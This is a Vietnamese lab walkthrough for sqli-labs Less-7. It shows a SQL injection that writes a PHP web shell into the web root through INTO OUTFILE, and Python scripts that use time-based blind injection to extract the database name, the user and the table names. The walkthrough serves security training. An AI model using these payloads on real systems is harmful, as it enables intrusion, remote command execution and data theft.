 # Less 7

Đề yêu cầu nhập vào một giá trị ID

![](../images/sqli-labs/Less-7/01.png)

Nhập thử vào một vài giá trị 

![](../images/sqli-labs/Less-7/02.png)

Thử nhập vào một số giá trị khác để hiển thị lỗi

![](../images/sqli-labs/Less-7/03.png)

Chưa thấy báo lỗi tiếp tục thử

![](../images/sqli-labs/Less-7/04.png)

![](../images/sqli-labs/Less-7/07.png)

Như vậy ta thấy đã xảy ra lỗi. Nhưng ta thấy các một điều khác với các bài trước. Ở trong bài này nó không hiện ra lỗi cụ thể. Có thể người lập trình đã can thiệp vào các lỗi hiển thị ra. Như vậy ta rất khó để phán đoán và không thể đọc dữ liệu bằng cách làm cho nó lỗi.

Ta tiếp tục thử để xem có thể pass qua được gì từ câu query ở bên dưới hay không

Sau nhiều lần thử (và dựa vào kinh nghiệm từ các bài trước) tôi có thể đoán ra được câu query ở đây có thể là

```
select * from table where id=(('$ID')) limit 0,1
```

![](../images/sqli-labs/Less-7/08.png)

Nhưng ở đây ta không thể tận dụng điều này để hiển thị thông tin như ở những bài trước. Mà ở bài này ta chỉ có thể truyền vào server một đoạn code PHP 

```
http://192.168.84.233/sqli-labs/Less-7/?id=1')) union select 1,2,"<?php system($_REQUEST['cmd']);?>" INTO OUTFILE '/var/www/html/tests/1.php' --+
```

Dựa và đây ta có thể sử dụng time based để khai thác một số thông tin trong DB. Ở đây tôi có một đoạn code đơn giảm để tìm một số thông tin

Ví dụ xác định tên của DB

```
import requests
import time
import string

url = "http://192.168.84.233/sqli-labs/Less-7/?id=1')) and if(substr((select database()),{},1)='{}',sleep(5), false) --+"
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Khi chạy kết quả sẽ trả về như sau:

```
 python Sql-time-based.py 
s
e
c
u
r
i
t
y
+
+
+
+
+
+
+
```

Như vậy DB ở đây là `security

Hoặc xác định user

```
import requests
import time
import string

url = "http://192.168.84.233/sqli-labs/Less-7/?id=1')) and if(substr((select user()),{},1)='{}',sleep(5), false) --+"
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả trả về

```
python Sql-time-based.py 
r
o
o
t
@
l
o
c
a
l
h
o
s
t
+
```

user ở đây là: root@localhost

Hoặc có thể xem các bảng trong DB

```
import requests
import time
import string

url = "http://192.168.84.233/sqli-labs/Less-7/?id=1')) and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),{},1)='{}',sleep(5), false) --+"
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả trả về

```
python Sql-time-based.py 
e
m
a
i
l
s
+
+
+
+
+
+
+
+
+
```

Một bảng trong số đó là `emails`

Tương tự ta có thể show ra các thông tin khác trong DB

Ta thấy nó vẫn báo lỗi

![](../images/sqli-labs/Less-7/05.png)

Nhưng thực ra ta đã add thành công

![](../images/sqli-labs/Less-7/06.png)
